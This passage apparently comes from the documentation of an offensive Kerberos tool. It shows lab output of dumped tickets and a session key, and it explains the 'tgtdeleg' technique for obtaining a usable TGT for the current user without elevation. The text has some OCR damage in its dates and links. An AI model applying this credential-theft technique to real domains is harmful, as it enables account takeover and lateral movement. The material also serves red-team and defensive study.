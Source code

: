  doIFFjCCBRKgAwIBBaEDAgEWoo...(snip)...

 ...(snip)...

 UserName : WINDOWS10$
 Domain : TESTLAB
 LogonId : 0x3e4
 UserSID : S-1-5-20
 AuthenticationPackage : Negotiate
 LogonType : Service
 LogonTime : 2/7/2019 420 PM
 LogonServer :
 LogonServerDNSDomain : testlab.local
 UserPrincipalName : WINDOWS10$@testlab.local

 [*] Enumerated 4 ticket(s):

 ServiceName : krbtgt/TESTLAB.LOCAL
 TargetName : krbtgt/TESTLAB.LOCAL
 ClientName : WINDOWS10$
 DomainName : TESTLAB.LOCAL
 TargetDomainName : TESTLAB.LOCAL
 AltTargetDomainName : TESTLAB.LOCAL
 SessionKeyType : rc4_hmac
 Base64SessionKey : 0NgsSyZ/XOCTi9wLR1z9Kg==
 KeyExpirationTime : 12/31/1600 400 PM
 TicketFlags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
 StartTime : 2/11/2019 350 PM
 EndTime : 2/11/2019 748 PM
 RenewUntil : 2/12019 248 PM
 TimeSkew : 0
 EncodedTicketSize : 1304
 Base64EncodedTicket :

 doIFFDCCBRCgAwIBBaEDAgEWoo...(snip)...

 ...(snip)...


 [*] Enumerated 20 total tickets
 [*] Extracted 9 total tickets


### tgtdeleg

The **tgtdeleg** using [@gentilkiwi](https/twitter.com/gentilkiwi)'s [Kekeo](https/github.com/gentilkiwi/kekeo/) trick (**tgt::deleg**) that abuses the Kerberos GSS-API to retrieve a usable TGT for the current user without needing elevation on the host. AcquireCredentialsHandle() is used to get a handle to the current user's Kerberos security credentials, and InitializeSecurityContext() with the ISC_REQ_DELEGATE flag and a target SPN of HOST/DC.domain.com to prepare a fake delegate context to send to the DC. This results in an AP-REQ in the GSS-API output that contains a KRB_CRED in the authenticator checksum. The service ticket session key is extracted from the local Kerberos cache and is used to decrypt the KRB_CRED in the authenticator, resulting in a usable TGT .kirbi.

If automatic target/domain extraction is failing, a known SPN of a service configured with unconstrained delegation can be specified with `/target:SPN`.
